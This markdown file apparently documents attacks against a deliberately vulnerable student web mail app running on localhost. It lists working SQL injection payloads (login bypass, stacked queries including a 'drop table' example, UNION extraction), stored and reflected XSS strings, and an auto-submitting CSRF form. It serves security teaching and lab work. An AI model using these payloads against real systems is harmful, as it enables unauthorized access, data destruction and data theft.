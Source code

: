 # List of possible attacks

## SQL Injection

Unlocks: Get access without password.

On login, enter `<USERNAME>' --` as email, where `<USERNAME>` is the target username.
Enter as password any value. 
The 
resulting query:
```sql
SELECT * FROM [user] WHERE email='<USERNAME>' --' AND password='any'
```

Works, because the password is checked after the email and the input is not sanitized.

## SQL Injection

Unlocks: Run any SQL statement.

On login, enter `'; <SQL_STATEMENT> --` as email, where `<SQL_STATEMENT>` is any SQL statement, like `'; drop table [mail]; --` for 
example.
The resulting query:
```sql
SELECT * FROM [user] WHERE email=''; <SQL_STATEMENT>'
```

## Stored XSS

Unlocks: Run any JavaScript code on sender and receiver of email.

Once logged in, email an existing user with `<script>console.log("pwned");</script>` as the subject or the body of the email.
The resulting query:
```sql
INSERT INTO mail ( sender, receiver, subject, body, [time] )
VALUES ( '<sender>', '<receiver>', '<script>console.log("pwned subject");</script>', '<script>console.log("pwned body");</script>', '<timestamp>' )
```
`<sender>` and `<received>` can be any accepted value.
`<timestamp>` is auto-generated.

When emails are queried in a second moment, subject and body are read from the DB and directly embedded into the 
HTML that is sent, running the JavaScript code each time. This hold for the sender when visiting the page of sent emails
and for the receiver when visiting the inbox page.

_Note: It is important that the script does not use single quotes, because the SQL query uses single quotes already.
If the SQL query uses double quotes, then the script must use single quotes exclusively._

## Reflected XSS

On registration, pass `<script>console.log("pwned");</script>` as the email to run the script on the victim's browser.

This is equivalent to making a POST request to the following URL:
```
http://localhost:8080/exam-project/RegisterServlet?name=Name1&surname=Surname1&email=%3Cscript%3Econsole.log%28%22pwned%22%29%3B%3C%2Fscript%3E&password=123
```
This URL can be used for a XSRF attack, like shown below.

_Note: The email can be at most 50 characters long due the limit imposed by the database. 
Using a longer string throws an exception on the server and does not return the script in the response._

## Reflected XSS

Feature: Run any JavaScript code.

On registration, enter a valid email and `"><script>console.log("pwned");</script>` as password to run the script on the victim's browser.

This is equivalent to making a POST request to the following URL:
```
http://localhost:8080/exam-project/RegisterServlet?name=Name3&surname=Surname3&email=user3%40gmail.com&password=%22%3E%3Cscript%3Econsole.log%28%22pwned%22%29%3B%3C%2Fscript%3E
```
This URL can be used for a XSRF attack, like shown below.

The email check is disabled, because the responsible query is compiled to:
```sql
SELECT * FROM [user] WHERE email=''; --'
```
The password is not treated and embedded in the response, resulting in the execution of the script in the victim's browser.

_Note: The password can be at most 50 characters long due the limit imposed by the database.
Using a longer string throws an exception on the server and does not return the script in the response._

## XSRF

The following HTML page can be forged, such that the session cookie of the victim visiting the page is used to authenticate the sending of an arbitrary email.
In this example `user1@gmail.com` is forced to email `user2@gmail.com`.
```html
<form id="submitMail" class="form-resize" action="http://localhost:8080/exam-project/SendMailServlet"
      method="post">
    <input type="hidden" name="sender" value="user1@gmail.com">
    <input class="hidden" name="receiver" placeholder="Receiver" required="" value="user2@gmail.com">
    <input class="hidden" name="subject" placeholder="Subject" required="" value="PWNED">
    <input class="hidden" name="body" placeholder="Body" required="" value="Forced message">
</form>
<script>document.forms.submitMail.submit();</script>
```

_Note: The sender does not have to be the owner of the cookie used to authenticate the request._

## In-band SQL Injection

On login, pass `user1@gmail.com' UNION SELECT CURRENT_USER, CURRENT_USER, @@VERSION, CURRENT_USER --` as email to receive a verbose description of the database version and the name of the current database user.

_Note: 4 expressions are used in the select statement, because the user table has 4 columns too. 
Only the 3rd and the 4th expression are then extracted and returned by the web server._

## In-band SQL Injection

Assume that we know the structure of the database tables.

On login, pass `' UNION SELECT subject, subject, subject, receiver FROM mail --` as email to receive 
the subject and the receiver of the first email returned by the database.

_Note: 4 expressions are used in the select statement, because the user table has 4 columns too. 
Only the 3rd and the 4th expression are then extracted and returned by the web server._